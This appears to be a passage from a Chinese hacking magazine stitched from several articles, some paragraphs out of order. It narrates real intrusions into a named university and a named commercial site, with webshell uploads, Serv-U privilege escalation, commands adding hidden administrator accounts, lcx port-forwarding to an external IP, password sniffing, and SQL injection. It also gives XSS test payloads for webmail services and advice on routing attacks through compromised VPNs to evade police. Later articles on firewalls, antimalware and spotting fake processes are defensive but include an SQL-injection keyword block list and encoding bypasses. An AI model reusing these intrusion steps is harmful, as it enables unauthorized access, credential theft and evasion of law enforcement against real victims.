使用得到的用户名和密码成功登录了 eWebEditor 的后台，如图10。进入了 eWebEditor，拿 webshell 就比较轻松了。找到“样式管理”－“拷贝样式”－“设置”－添加允许上传类型 asa，再预览上传 asa 后缀的 ASP 木马，然后在“上传文件管理”里就可以看到木马了。点击直接访问 webshell，如图11。在图中，我们可以看到有 ASP.NET 这个用户，一般来说对方服务器就有可能支持 ASPX。因为 ASPX 木马的权限通常要比 ASP 的高，所以我上传了一个 ASPX 木马，然后又上传了一个 SU 提权的 ASP 木马，执行“net user guest /active:yes”“net user guest password”“net localgroup administrators guest /add”这三条命令，意思是先激活 guest 用户，再给 guest 用户设定一个密码，再把 guest 用户添加进管理员组。幸运的是 Serv-U 的默认连接密码没有更改，命令都成功执行了。在 ASPX 木马里执行“net user guest”，我们可以发现 guest 用户已经隶属于管理员组了，如图12。使用 ASPX 木马读取了注册表的远程桌面服务端口，发现就是默认的 3389，不过 Terminal Services 服务端口是没有开启的。后来 wyzhack 上传了灰鸽子才将对方的终端服务开启。


图7


图10


图8


图11


图9


图12

### 四、守株待兔

直接连接 3389 是行不通的，因为防火墙把我们挡在了外面，不过我们可以使用 lcx.exe 给它来个端口转发。

ASPX 木马或者 SU 提权木马都不能执行 lcx.exe，所以我决定通过修改 Serv-U 的配置文件来添加一个具有 system 权限的 FTP 用户，再登录上去进行端口转发。就是修改 `C:\Program Files\Serv-U\ServUDaemon.ini` 这个文件的内容了。如何修改就不废话了，有兴趣的话大家可以去了解一下 Serv-U 配置文件的存放规则，了解之后再修改起来就得心应手了。我添加了一个用户名为 hackest、拥有 system 权限的 FTP 用户。要是配置文件没有权限修改的话，可以使用 SU 提权木马执行 cacls.exe 修改文件属性为 everyone 完全控制就可以修改了，不过 cacls.exe 需要系统文件格式为 NTFS 才可以使用。在 CMD 下登录 FTP 上去，执行：

`C:\Documents and Settings\All Users\Documents\lcx.exe -slave 219.129.213.252 51 127.0.0.1 3389`

然后在本机上执行 `lcx.exe -listen 51 2007`，再连接本机的 2007 端口就可以登录远程服务器了，加图13。到此我已经成功控制了 61.129.42.42 这台服务器。接下来就要安装 cain 进行嗅探了，关于 cain 的使用，大家可以参考前几期 X 上的文章。


图13

在 61.129.42.42 上执行“ipconfig /all”命令得知默认网关为 61.129.42.1，如图14。复旦大学主站的 IP 为 61.129.42.5。设置好 cain 就可以开始嗅探攻击了。由于刚开始的那几天是五一假期，嗅了两天也一无所获，N 天后终于有进展了，wyzhack 告诉我说已经成功嗅探到了复旦大学主站的 FTP 用户名和密码了，如图15。有了 FTP 密码就等于有了一切，利用 FTP 直接上传了一个 PHP 木马，进去参观一下，如图16。


图14


图15


图16

### 五、尘埃落定

现在就已经完全控制了复旦大学的主站了，虽然主站的操作系统是 Linux，但是我们通过先入侵一台 Windows 的 3389 肉鸡再进行对目标的嗅探就达到了预期的效果，可见嗅探的威力的确非比寻常，不注意防范的话可是非常危险的！既然是 Linux 系统，管理员一般都是使用 SSH 来远程管理服务器的。扫描一下主站的服务器，发现开了 22 端口（SSH 的默认连接端口为 22），尝试使用嗅探到的 FTP 用户名和密码登录 SSH 居然成功了，如图17（小编注：在 Windows 下不能直接登录 SSH，大家可以使用 putty 这个小工具）。至于通过溢出或者其它提权方法来得到 root 权限，我就不弄了，因为这方面实在不太熟悉。本文主要是介绍一种入侵思路，有了可行的思路，方法上就好实现了，入侵的成功性自然也就提高了！


图17

（文字中涉及到的 superscan3.0、明小子等入侵工具、lcx.exe、cain、putty，已经收录于光盘中）

### 小技巧

**删除右键菜单的内容**

首先单击“开始”菜单中的“运行”命令，打开“运行”对话框，在其中键入 `regedit`，然后按“确定”。在打开的“注册表编辑器”窗口中，打开 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt` 主键；在该主键下会有许多子主键，这些子主键的名称就是显示在右键菜单中的命令。只需找到显示命令的那条主键条目，单击鼠标右键，在弹出的快捷菜单中选择“删除”即可。

## 一个人的战争

## 看菜鸟来入侵，“功夫网”


经常看《黑客X档案》的小菜，时间长了都会有这么一个小毛病：每看到一个网址带有参数，就会忍不住在它后边加个单引号或“and 1=1”“and 1=2”之类的。这不，前几天我就入侵了一个很有趣的网站。

那是一个以茶道文化为主题的网站，不过我对它的内容并不感兴趣 ^_^。

在这个网站里逛了一下，发现很多页面都是使用的 asp，便随便在一个网址 `http://www.fountea.com/puer/list.asp?mid=61&tp=wh` 后边加了个单引号，但它返回了正常页面，而且标题上还显示“无效页面”（图1），事情好像有点棘手了。接着我又试着使用“and 1=1”和“and 1=2”检测，但都返回了类似图1的正常页面，好像这个网站真的对注入作了过滤。既然直接注入已经没有希望了，那只好想一些其它的办法了。正当我准备放弃注入这条路的时候，却无意中瞄到刚才的那串网址有点特别。

那串网址中有两个等号，还有个“&”把它们连接了起来，这不就说明了网页向服务器传递了两个参数吗？再仔细看看，这两个参数分别是“mid”和“tp”，值的类型分别是数字型和字符型。


图1


图2

于是我又试着把“tp”这个参数删去，仅仅对“mid”这个参数进行注入测试。我把网址变成 `http://www.fountea.com/puer/list.asp?mid=61` 再进行访问，这一下，网页中的图片都不显示了，只显示出了文字（图2）。看来，“tp”是“图片”的意思。接着我又在这串网址后加了个单引号进行提交，这回提示浏览错误（图3）。

测试却发现了一个很奇怪的现象。使用“and 1=1”检测时，服务器返回了如图4所示的页面，而使用“and 1=2”时却返回了如图5所示的页面，真的很奇怪。平时入侵网站，一般都是“and 1=1”返回正常页面，“and 1=2”返回错误页面的啊。不管它了，总之这个网站存在注入漏洞就行了。


图3


图4

我把这个网址丢到“啊D注入工具”里去进行检测，很快，亲爱的“啊D”就向我报告检测结果了。真的存在注入漏洞，而且权限竟然是 SA（图6）！这回可真的有得玩了！

既然是 SA 权限，我自然懒得去猜解什么用户名、猜后台之类的了，直接去执行命令多省事呀。我直接来到“啊D”的 CMD 执行工具处，输入“net user”查看服务器的用户账户，但令我失望的是，“啊D”并没有返回任何结果，就算我把命令换成使用“wscript.shell”来执行也是不行。

好不容易才弄到手的 SA 当然不能轻易丢掉，于是我又把这串网址放到了 HDSI 中进行检测。HDSI 也不负厚望，报出了权限为 SA，只是不知道它能不能成功执行命令。


图5


于是我便在命令行里使用“net user fancy /add&net localgroup administrators fancy /add”，在服务器里添加了一个用户名为 fancy、密码也为 fancy 的账户，并把它添加到了本地管理员组（图8）。一切都弄妥了，最后只剩下使用 3389 登录器远程登录了。打开 3389 登录器，输入服务器的 IP 和刚才添加的管理员账号和密码，点“连接”，等一会儿，服务器的“桌面”就出现在眼前了（图9）。至此，这次简单的入侵过程也就算是结束了。


怀着忐忑不安的心情转到 HDSI 的“高级命令”处，输入“net user”，点击“执行”，经过几秒钟的等待，HDSI 下面终于出现了让人望穿秋水的结果（图7）！这就确定了 CMD 下的命令能够正确执行。看来，这台服务器是逃脱不了成为我的肉鸡的命运的了……

既然确定了命令能够正常执行，那接下来的事情就好办得多了。我使用“netstat -an”查看了一下服务器开放的端口，但 HDSI 却返回了一大堆的“未知”，真是不爽。不过还好，HDSI 里有开启 3389 的功能，先试一下再说。在“高级命令”里找到“开启3389”，点击它，又过了几秒，HDSI 报告 3389 开启完毕。

我大致看了一下服务器的硬件信息，发现它的配置还是挺不错的，双至强，1GB 的内存。只不过整个服务器上就只有它一个网站，真是有点太浪费了。像俺那个博客就是和别人共用的虚拟空间，才 20MB，真的是寒酸呀，唉，有钱人的电脑就是好呀。

## 对国内主流邮箱的跨站测试

雕牌 & hackest


### 一、起因

其实小雕以前就发现过 QQ 邮箱的跨站问题，不过那次是只能跨群邮件，跨不了普通个人邮件。于是小雕继续研究，终于有了突破性进展！这一次跨得更厉害。126、21cn、sina、tom、sohu、163、QQ 等这些目前最常使用的邮箱都存在跨站漏洞，而测试也全部成功。不过 yahoo、hotmail 这几个邮箱没有跨站出来，鉴于技术和时间都有限，就说说已经发现并测试成功的这些吧。这些可也是具有“中国特色”的邮箱跨站哦！

### 二、跨站测试

### 1. 126邮箱

首先，我们申请一个 126 的免费邮箱，我们的测试方式是自己给自己发邮件。登录邮箱，收件人栏就填写自己的邮箱地址，主题随便填。要注意的是要勾选上“编辑源码”，然后在邮件内容处填上如下测试代码（图1）。

```html

```

## 一个人的战争

“test”的邮件，打开后就可以看到测试效果了，如图2。

接着发送邮件，再去接收刚才发送的邮件，打开后就可以看到效果了，如图6。


### 2. 21cn邮箱

当然也是先注册一个邮箱，还是采用自己给自己发邮件的方式来测试。登录进去，风格设为“左右”，然后“写信”，“插入图片”，在弹出的框里填上测试代码 `DYNSRC="javascript:alert('www.hackm.com')"`，如图3，然后点击“确定”发送邮件。我们再到收件箱去接收邮件，打开刚才发送的邮件就可以看到跨站成功的效果了，如图4。


#### 3. 新浪邮箱

还是使用自己给自己发邮件的方式，“写邮件”，收件人处还是自己，主题随便填，然后插入图片，填上测试代码：`DYNSRC="javascript:alert('www.hackm.com')"`。这个利用代码和测试21cn的一样，如图5。“确定”后就弹出来了，呵呵。

### 4. tom邮箱

同样，自己给自己发邮件，收件人处填写自己的邮箱，主题随便填。然后点击“编辑HTML信件”，如图7，然后勾选上“编辑源码”，在邮件内容里填上测试代码：

```html

```

这个和测试126邮箱的代码一样，填好后的格式如图8所示。然后发送邮件，再自己接收并打开，就可以看到效果了，如图9。

### 5. sohu邮箱

本来sohu邮箱我以为跨站不会成功的，可后来小睡还是突破了。sohu的邮箱和其它几个有些不同，在点击“回复”后才能触发跨站，有点意思哦。还是自己给自己发邮件，直接把测试代码填到邮件内容里面：`<iframe src="http://www.hackm.com"; width="120" height="120" frameborder="0">`，如图10。然后接收邮件并打开，不过光打开邮件是看不到效果的。再点“回复”，就可以看到效果了，如图11。sohu还有VIP邮箱，也存在同样的问题，回复即触发跨站了，测试成功的效果如图12。


### 6. 163邮箱

163邮箱的跨站问题以前曾有人提起了，不过我还是简单地再提一下吧。这个跟126的跨站有点相似，但是测试代码不同。发邮件的时候也要选上“编辑源码”，填上测试代码：``，如图13。然后发信，再自己收信，打开邮件就可以看到已经成功跨出来了，弹出了我的论坛地址，如图14。

### 7. QQ邮箱

关于QQ邮箱的跨站问题，虽然小熊以前就发现过了，不过在被人疯狂利用后，腾讯公司修复了漏洞。不过这次又让小熊这家伙再次发现了新的跨站。记得前几期杂志上似乎也有人提过这个问题，不过那个代码现在已经不能使用了。这次发现的问题对于个人普通邮件还是群邮件都有效的。首先给自己发信，写信的时候点击“显示工具条”，如图15。


然后再点一下“<HTML>”，如图16。在内容里面填上测试代码：

```html

```

这个代码和测试tom邮箱的代码是一样的，如图17。打开收到的邮件就可以看到效果了，如图18。群邮件的利用方法也是相同的，在此就不再多说了！


## 让卡卡成为菜鸟的安全小助手

人滚流氓天

最近的网络流氓软件可是十分猖獗呀，就连360安全卫士都已经有些力不从心了（小编石头：就在我编辑稿件的时候听说360的官方论坛被人挂马了，这还让不让我们小菜活了呀，网络太危险了，真想回火星上去！）。可能是因为树大招风吧，使得它和卡卡成了众多流氓软件消灭的对象。中了流氓软件后，IE浏览器会被挟持，首页无法改回，会自动下载木马病毒，搜索引擎会被挟持为YOK（无论你使用什么搜索引擎进行搜索，都会自动跳转到雅虎上面），众多品牌的杀毒软件都会被无辜地杀掉等等。为此瑞星推出了瑞星卡卡上网安全助手，据说其独创的碎甲技术可以彻底杜绝恶意软件和流氓程序，可以有效地防止程序复生，并且内部还集成了多种病毒专杀工具。最重要的一点就是这个工具完全免费的，这么好的东西我们为什么不用呢？

### 卡卡的下载和安装

瑞星卡卡是免费提供下载的，就连注册会员这等操作都不需要。登录瑞星的官方网站 http://www.rising.com.cn，可以看到瑞星的首页已经完全变成卡卡的天地了，可见瑞星公司对卡卡的重视程度。下载界面如图1所示，下载完毕后双击安装，安装前最好将IE浏览器关闭，不然卡卡在安装的时候也会提示你关闭的（图2）。

### 卡卡的智能升级

卡卡的升级也非常周到，如果我们安装的是光盘里的程序的话，安装重启后只要双击打开IE浏览器就可以实现卡卡的智能升级了（图3），方便吧！当然我们也可以点击卡卡里面的升级按钮来完成升级。


### 流氓劫持我不怕

运行卡卡后就可以在首页里看到官方说明和众多关于流氓程序的追杀令（图4）。


在右边的窗口里有两个重要按钮，第一个是“瑞星未知病毒查杀”，这可是今天的一个重点，点击之后它会自动分析进程查看你是否被病毒或流氓程序骚扰（图5）。第二个就是“瑞星免费专杀工具”，这个可以为我们解决最近比较火辣的一些病毒和其变种，比如“橙色八月”、“my123”等等，这也是其它品牌的杀毒软件所不具备的（图6）。

程序，比如流氓开山鼻祖雅虎的YOK搜索引擎（图7）。而在卡卡的插件管理功能中可以禁用也可以卸载IE浏览器的插件，其中好多是微软自身的插件，建议先禁用，重启计算机后查看系统是否异常，如果没有发现异常情况再卸载掉（图8）。插件免疫功能里我们可以对常见的系统插件和IE流氓插件进行免疫（图9），乍看上去也许你会觉得有点不起眼，关键是卡卡能够免疫的插件太多了，所以在默认上显示的是几个归类，不信？双击看看！启动了卡卡的IE自动免疫功能后，当IE遇到挟持的时候卡卡会自动提示，来保护你的IE不受侵害。


### 偷窥隐私我不怕

历史记录清理这个应该不必细说吧，这在以前的X档案上介绍过很多，什么cookies、IE的历史记录、运行的历史记录、还有文档等等一些，如果你的电脑是多人使用的，那一定要清除这些哦，不然你也就没有隐私可言了（图10）！卡卡的IE系统……


就以360安全卫士来说吧，我给自己的电脑里中了一个“my123”和一个“橙色八月”，结果重启了N遍系统也没恢复，病毒分离也不行，最后又来了个“3448.com”，可怜的360安全卫士居然被整死了，好没用！而安装瑞星卡卡之后点击下载专杀工具，杀了一遍病毒之后重启电脑就全部OK了。卡卡的流氓程序清除功能，个人感觉还是不错的，可以卸载掉360安全卫士卸载不掉的……

修复可是一个好东西（图11），我的IE那天就是因为测试病毒给弄坏了，使用黄山、360都没有修好，还是卡卡比较牛！而且在里面还有不少系统上面的设置，比如“禁用网上邻居”、“禁止使用任务管理器”等等，在以前这些可都是要用注册表编辑器或者组策略来完成的哦！现在方便了，菜鸟也可以轻松搞定了，如果网吧限制了这些的话，下载一个卡卡恢复一下就可以了，我想网吧不会变态到连瑞星也不放过吧！

### 病毒查杀我不怕

卡卡的系统启动项管理是瑞星防火墙中的启动管理的加强版，不过，功能和卡卡的这个相比差的不是一星半点哦。不仅可以显示出启动项的名称，最大的亮点就是可以显示出程序启动的图标和程序的具体信息，也就是微软白名单，会标明 Microsoft Corporation，再加上启动图标的判断，就是再笨的鸟也知道什么是系统必备的启动程序，什么是病毒木马吧！默认显示的是登录启动信息，下面还有“资源管理器插件”、“服务项”、“驱动”、“引导执行”等等傻瓜化审查策略，大大地方便了菜鸟对服务、动态链接库、Winsock等这些级别病毒的辨认能力（图12）。双击上面每一个项目都会自动打开注册表的相关键值，省去了以后对注册表键值查找的困难，这项功能强烈推荐菜鸟使用。接下来是一个超强版的任务管理器，在里面直接列出了系统进程、PID值、进程文件路径等等信息，并且在我们点击这个进程的时候还会在下面列出进程的模块信息、发行者、路径、描述、创建时间等（图13）。

好了，瑞星的卡卡上网安全助手就介绍到这儿，希望卡卡在各位菜鸟的手中会发挥得更加出色，为广大菜鸟贡献多多。


## 我用密文写日记

星光

每个人都会有一些属于自己的小秘密，特别是MM。很多MM都喜欢使用电脑来写日记，但是在电脑上写日记可是会有被偷看的危险哟，今天我就找到一个小工具——QR Code，它可以把文本转换成二维码，这样就无法直接看到文本的内容，从而达到加密的目的。


> 二维码，是用某种特定的几何图形按规律在平面（二维方向上）分布的黑白相间图形记录数据符号信息的。

### 加密篇

打开QR，界面如图1所示，选择文本信息选项，并输入你想加密的文本，上面就立即出现了对应的二维码，如图2。请注意软件的最下面，在密码后面输入你要加密的密码，再选择“加密”，识别的时候需要密码才能显示结果！写好后，选择“文件→保存”，并设置好保存的路径，单击保存就OK了，如图3。保存好生成的图片，识别的时候要用。些的文本再用加密软件加密，加密的效果会更好！


图4

### 识别篇

打开QR，选择“文件--打开”，找到那个加密的文本（图片），如图4。单击“打开”，弹出提示要输入密码，输入刚刚设置的密码，单击“确定”（图5），加密的内容又重现了（图6）！呵呵！很简单吧，这种方法是我在玩QR的时候想出来的，可以用来写日记或是用来保存一些小秘密，适合MM使用，希望大家能够喜欢！

> （本文所涉及到的QR Code已收录到光盘中）

## VPN，今天你玩了吗？

zj1244

VPN，全称虚拟专用网（Virtual Private Network）。通常，VPN用在比较大的企业或者公司里，为员工实现家庭办公或访问企业内部资源。对于一般的家庭用户来说应用不多。事实上，这是因为他们还不了解VPN的一些优势所在。

VPN之间的数据是经过加密的，因此我们可以放心地当作跳板或诸如来代理上网。而且使用VPN的话，我们不必再像以前那样想尽办法上传程序到肉鸡上。大家可以想象一下，在你进行入侵的时候，如果先连VPN然后再hack，那所有的网络访问都变成肉鸡的IP地址了，而VPN会将这个过程进行加密；如果出了什么事，网警也没多大办法认定这是我们干的。这对黑客的自我保护是非常有用的，至少不会那么容易被抓。VPN还有一个好处就是如果大家想进一步入侵肉鸡的局域网，那又要上传相关的扫描程序。架了VPN，我们就可以在本机入侵肉鸡局域网的机子了，不信？那就仔细阅读本文吧。

我们在“开始”->“运行”中输入“services.msc”，可以打开服务窗口，在这里可以看到每一个服务的详细信息。但开启VPN服务必须要满足以下几个条件：

- Windows自带防火墙（Windows Firewall/Internet Connection Sharing，ICS）要停止
- 远程注册表服务（Remote Registry）必须开启
- Server服务（Server）必须开启
- 路由服务（Routing and Remote Access）必须开启

然后打开“开始”菜单->设置->控制面板->管理工具->路由和远程访问（图1），弹出路由和远程访问窗口，我们在左边的***（本地）处单击右键，选中“配置并启用路由和远程访问”（图2）。


然后直接下一步，在弹出的配置窗口里选择最后一项“自定义配置”（图3）。选择自定义配置可以适用单网卡的情况，默认单网卡是不允许开VPN服务的。继续下一步，在自定义配置窗口里选择第一项“VPN访问”，然后下一步，最后单击完成。会弹出一个对话框问是否启动服务，当然选“是”呀（图4）。


注意：如果单击完成出现“80070005错误”的话（图5），那一般就是你登录内网的时候用的是guest这类克隆用户的关系。用这类克隆用户开VPN一般都会出现这种错误，解决方法就是新建一个管理员权限的用户去开启VPN，开启后删去新建的用户就可以了。


接下来我们还要配置自己的机子，在网上邻居上右键选择属性，双击新建连接向导（图10），直接选择下一步。接下来选择第一个“连接到我的工作场所的网络”后下一步（图11），再……

我们右击***（本地），选择属性。切换到“IP”选项卡，选中静态地址池（因为一般的服务器都不会提供DHCP服务），单击添加，在弹出的新建地址范围中添加一个内网IP，如：192.168.1.8-192.168.1.200（图6），然后确定。


内网IP可以用 `ipconfig /all` 来获得，如果没有内网你可以自己随便填一个内网IP段。然后切换到日志选项卡，选择不记录任何事件（图7）。接下来还要设置允许拨入的用户，右击“我的电脑”→“管理”→“本地用户和组”→“用户”，在你要拨入的用户上右击属性（图8），切换到拨入选项卡，选中允许拨入后确定（图9）。这样VPN就算配置好了。


## 安全第一

选择第二项“虚拟专用网络连接”（图12），然后随便输入一个公司名后下一步。接下来输入 VPN 服务器的地址（图13），单击完成就大功告成了。

在新建的网络连接里输入刚才设置的拨入用户，单击连接（图14），便成功拨入对方的 VPN 了。我们在本机键入 `ipconfig /all` 看看，是不是发现多出一个 IP 地址了（图15）。


192.168.1.9 就是 VPN 分给我们的对方局域网内部的 IP，下面就可以拿起扫描工具，在对方局域网内扫个痛快了。不过这时候大家是不是发现自己已经上不了网了呢？其实那是因为默认情况下数据包都是先往 VPN 发送的，大家可以在 cmd 下键入 `route print` 来看看数据走的路线。解决的方法也很简单：在图14的连接窗口时选择“属性”，切换到“网络 -> Internet 协议属性（TCP/IP）-> 高级”，把“在远程网络上使用默认网关”的对号勾掉（图16），重新连接即可。

那现在有的同学又问了：你不是说可以把 VPN 当成代理上网么，那要怎么设置？是的，如果要通过 VPN 上网，那我们之前配置 VPN 的时候就要添加 NAT（网络地址转换）了。在“路由和远程访问”窗口中，打开“IP 路由”选择“常规”，然后右击选择“新增路由协议”，在弹出的窗口里选“`NAT / 基本防火墙`”（图17）。不一会儿“IP 路由”选择栏就会多出一个 NAT/基本防火墙。然后右击 NAT/基本防火墙选择“新增接口”，选择外部网卡的接口，本例是外网（图18）。确定后在接口类型选择“公用接口连接到 Internet”，勾上“此接口上启用 NAT”后确定（图19）。最后把本地的 VPN 连接里“远程网络上使用默认网关”的对号勾上（图16），勾上后数据包才是通过 VPN 发送出去的。确定后就可以通过 VPN 代理上网了。把自己的 QQ 下线然后再上线看看，IP 是不是变成肉鸡的了？好了，关于 VPN 的架设及其应用就讲到这里了，如有什么疑问，请去论坛上联系我。

## 全面终结 SQL 注入时代 —— VIF 防火墙试用小记

最近几年，各种各样的脚本程序非常流行，跟着脚本程序流行起来的自然还有形形色色的脚本漏洞，比如各种 SQL 注入、各种盗链、小偷程序、各种脚本木马等等，给许多网站以及个人用户带来了很大的危害。想防范这种脚本漏洞吗？那就来试试风讯 VIF 防火墙吧！这个防火墙可和我们平常使用的“天网”“瑞星”等不太相同，这是一个专门针对 IIS 的防护软件，是一个集防盗链、防注入、防 CC 攻击于一体的 IIS 防火墙。这个防火墙的安装非常简单，运行安装程序后直接点下一步就行了，建议最好使用管理员权限来进行安装。注意两个地方：一个是安装的地方，默认会安装在 `D:\VIF` 目录下；另外就是最好将 VIF 设置成 everyone 的权限，这也是官方的建议。在安装完成时，会出现一个选择，如图1。


图3

防火墙启动后的主界面如图4所示。


图1

安装完成后会自动加载到 IIS 中，测试有没有安装成功的一个最简单的方法，就是在类似于“`asp?id=26`”的页面后加一个“`'`”进行提交。如果出现如图2所示的界面，就说明安装成功了。


首先来看一下常用的防注入。默认情况下开启了对全站的防注入功能，只允许 POST 和 GET 方法提交数据。默认防止以下 SQL 注入语句，语句间使用“|”隔开……当然这些语句是可以自由添加的，只要提交的数据中包括以上语句，我们就会在浏览器中看到如图2那样的网页。

```text
select|declare|@@|update|drop|create|backup|union|exec|eval|xp_|sp_|truncate|load_file|.cif|cmd|command|dir|...
```

我们来添加一个其它的处理方式，如图5。“主机头”一栏可以填写 IP 或是域名，如果是“*”的话就代表全部；IIS 端口默认都是 80，如果改过访问端口的话，就要在这里填写改过的端口。接下来就是输入你想屏蔽的 SQL 语句，比如没有过滤 `and`，我们就加进去就可以了。第三步是一些其它的处理方式，包括“直接终止”“网页转向”“输出信息”等三种方式，建议选用“直接终止”方式。这样当有 SQL 注入时就会直接出现 404 错误页面了。


图2

如果没有出现如图2所示的界面，我们就到 IIS 的 ISAPI 筛选器中查看一下有没有 VIF，如果是空白的话就手动添加进来，如图3。点击“添加”，“筛选器名称”栏可以填写 VIF，“可执行文件”栏我们填入 VIF 目录下的 `VirtualiisFirewall.dll`，重启一下 IIS，防火墙就可以使用了。

## 安全第一

默认情况下使用的是“输出信息”方式。文中说明可在防火墙目录下查看 SQLINJECTION.txt 与相关 HTML 代码，并通过“网站转向”等设置处理 SQL 注入跳转问题；同时提到一次添加单条语句不便，可通过 IIS 应用内置 SQL 基础防护进行批量添加。


图5

在图6所示“修改内置 SQL 语句”中，可用“||”分隔符一次性添加多个 SQL 语句，以提升配置效率。


图6

文中进一步说明另一类注入可写入 cookie，因此建议勾选“将 SQL 注入检查应用于 COOKIES”。随后转入防盗链功能介绍：基础防盗链与公钥防盗链两种方式，并以图片地址为例说明拦截效果。


图7

在设置上可对“网站目录”指定目录或全站，匹配方式可指定路径。示例访问图片地址后被拦截（见图8）。


图8

接着说明基础防盗链对迅雷等可能失效，建议启用公钥防盗链机制；并通过 vif_FDL.asp 中的 VIF_PUBKEY 配置来完成绑定。还提到可改为“与公钥固定 IP 绑定”方式。

```html
<!--#include file="vif_FDL.ASP"-->
<A HREF="http://www.woidy.com/3/soft/6.rar">...
<br>
<A HREF="http://www.woidy.com/3/soft/6.rar?vsPublic=<%=getvskey%>">...
```

文中解释：未使用 `vsPublic=<%=getvskey%>` 的链接会被拦截，使用后可正常下载；该值来自 vif_FDL.asp。并讨论了值暴露、同 IP 相同值，以及可放入 cookie 并启用“当 cookie 包含公钥时请验证它”等实践。


图9

再来看看 VIF 是如何防止 CC 攻击的。

### 什么是 CC 攻击？

CC 攻击就是利用大量代理服务器同时访问你的站点，制造高并发请求压力，拖慢 IIS 处理事务效率。特别是当失控的代理服务系统访问带有数据库交互的动态 ASP、ASPX、PHP 页面时，会在很短时间内拖垮服务器效率。

防范 CC 攻击的设置其实非常简单，如图10。


图10

有三种技术来防范：基础防御、代理屏蔽、IP 屏蔽。默认是开启基础防御功能。这样可以实现防范最简单的 CC 攻击，想进一步防御的话，还可以把代理屏蔽掉。因为有很多的 CC 攻击就是通过代理服务器。若服务器使用了防火墙，会检测并限制异常的 TCP/IP 连接数和频率，避免被认定为 Connection-Flood 攻击。若仍无更好防护，可以使用最后一招——屏蔽 IP。在屏蔽 IP 接口上可以选择 IP 地址，也可选择所有；这种屏蔽不是一般的 IIS 限制，而是系统级禁止访问。总体来说，VIF 的防 CC 攻击能力较为出色。

当然 VIF 还有许多不错的功能，比如 URL 重写、限制下载软件速度、控制下载线程、仿 SIS 标签漏洞防护、P2SP、站点线程设置、IP 组策略、修改 IIS 标头等。是否安装了 VIF 就可以高枕无忧？并非如此，我们来看一下 VIF 不足之处。

### 一、防注入

VIF 防注入功能不是很完善。VIF 通过关键字进行过滤，例如过滤了 select 这个词，只要提交的数据包含 select 就会被阻止。但如果提交的是 “?selected=true” 也会被拦截，并不理想。更现实的绕过方式是 URL 编码：如将字符编码为 `%56` 等形式，或构造非标准编码片段，使过滤失效。这样虽然会绕过关键字过滤，但依然可能注入；现有注入工具不一定可直接利用，往往需要手工注入。

### 二、防 CC

如果设置过于严格，会导致很多通过代理服务器上网的正常用户无法浏览网站，甚至将搜索引擎爬虫拒之门外。因此建议在未受攻击时只使用基础防御。建议优先使用官方稳定版本，不要盲目追新；更新很快时要观察 BUG 修复情况再升级。配置过程中也应谨慎，防止误伤资源访问。总体来说 VIF 功能不错，但仍应持续改进，帮助站长更轻松地保障服务器安全。

## 真假进程轻松分辨，谋与玩如履

在杂志的“菜鸟”栏目里，经常能看到文章描述“发现可疑进程……”。那么这些可疑进程是如何识别出来的？如何从众多进程信息中找出伪装木马进程？下面就来探讨这些问题。

### 一、“偏偏盯上你”——常见进程中的木马伪装目标

再厉害的木马和病毒，只要运行都会在系统中产生进程。为了不被查杀，它们常会对自身进程进行伪装甚至隐藏。例如将进程名改成与系统进程极为相似：把字母 `o` 改成数字 `0`，把 `l` 改成 `i`，增删某个字符等。像 `svch0st.exe`、`iexplorer.exe`、`explorer.exe`（伪造体）、`osrss.exe` 等都可能是木马进程。

另外，也有木马直接使用系统进程名，只是木马文件并不在系统目录中，需要结合路径、签名与启动项进一步判定。


图1


图2


图3


图5


图6


图4

系统文件夹中，而是位于其它的目录下。由于木马进程名与系统进程混淆在一起，进程名一模一样，因此非常迷惑人。最易被木马看中进行混淆的系统进程有 `svchost.exe`、`explorer.exe` 等（图2）。

### 二、揪出伪装型木马

对于上面提到的那些伪装系统进程的木马，有经验的用户使用任务管理器就可以将木马揪出来，不过对于大多数菜鸟来说，还是推荐几个比较好用的工具，比如 Procexp、杀毒伴侣等。

#### 1. Procexp 揪出简单伪装木马

Process Explorer 是一个进程查看工具，与 Windows 的任务管理器相比其功能更为强大，可以查看和结束系统中的所有进程，包括隐藏进程和内核级进程。如果木马仅仅是进行简单的进程名伪装，运行 Procexp 就可以轻易地揪出此类木马来。

我们还可以使用 Procexp 来替换 Windows 任务管理器。启动 Procexp 后选择“Options”下的“Replace Task Manager”，这样当我们以后按下 CTRL+ALT+DEL 或在 Explorer 任务栏里启动任务管理器时，都将运行 Procexp。另外，有的木马会监视系统进程，当发现 procexp 运行时会对其进行破坏，我们可以将程序文件名“Procexp.exe”改为其它任意的文件名就可以了。

##### 步骤一：分辨正常系统进程

在 Procexp 界面上边的窗口列表中，显示当前系统中的所有进程，下部窗口中显示所选择进程的详细信息。显示的进程被分为了两类：一种是系统级的内核服务进程，一种是普通程序进程。系统服务进程树为“System Idle Process”，其它的是普通程序进程。展开“System Idle Process”，可以看到所有系统中的进程名，如 svchost.exe、winlogon.exe、csrss.exe 等，这些是安全正常的进程（图3）。

##### 步骤二：检测可疑进程

展开普通进程中的“explorer.exe”，在其下就可以看到你在桌面下打开的程序。例如在列表中我们看到了一个名为“svchost.exe”的进程（图4）。这个进程与系统进程“svchost.exe”是同样的进程名，但是正常的系统进程应该在“System Idle Process”中的，因此该进程十分可疑。

点击菜单“View”→“Select columns”命令，在弹出对话框中点击“Process image”选项，勾选页面中的“Image Path”项（图5），点击“确定”后关闭对话框，返回列表中点击展开“System Idle Process”进程树，在其下显示了所有系统进程，可以看到正常的系统进程文件路径都是位于“windows\system32”目录下的，而伪装成系统进程的木马进程，虽然具有与系统进程一样的名称，但是存放路径往往是在磁盘根目录下、Windows 目录下，或者其它的路径（图6）。从图中我们可以看到对应的进程文件为“C:\WINDOWS\svchost.exe”，是在 Windows 目录下的，因此可以肯定这个进程是木马进程！

利用 Procexp 的普通进程与系统进程分支显示的特点，我们就可以轻松地辨别出伪装成系统进程的木马了。

#### 2. 利用“智能杀毒伴侣”分辨真假进程

“智能杀毒伴侣”是一款病毒木马清除辅助工具，非常智能化，可以自动分辨出进程与文件的安全性。运行“智能杀毒伴侣”后，点击“进程管理”，在右侧将会显示出当前系统中的所有进程，杀毒伴侣已经自动为进程作上了标记，在“安全”栏中标记为“UN”的就是可疑进程。

结合“描述”和“文件路径”信息，我们就可以轻松地揪出木马病毒进程来了（图7）。

在下方的“查找进程信息”中输入进程名，点击搜索按钮，即可搜索出相关信息。

另外还有更简单的方法，直接在网址后面添加进程名，注意不要加后缀名，如果网站中有该进程信息的话，将会打开信息页面。例如我直接在 IE 中打开网址“http://www.dofile.com/”。

> **小提示**
>
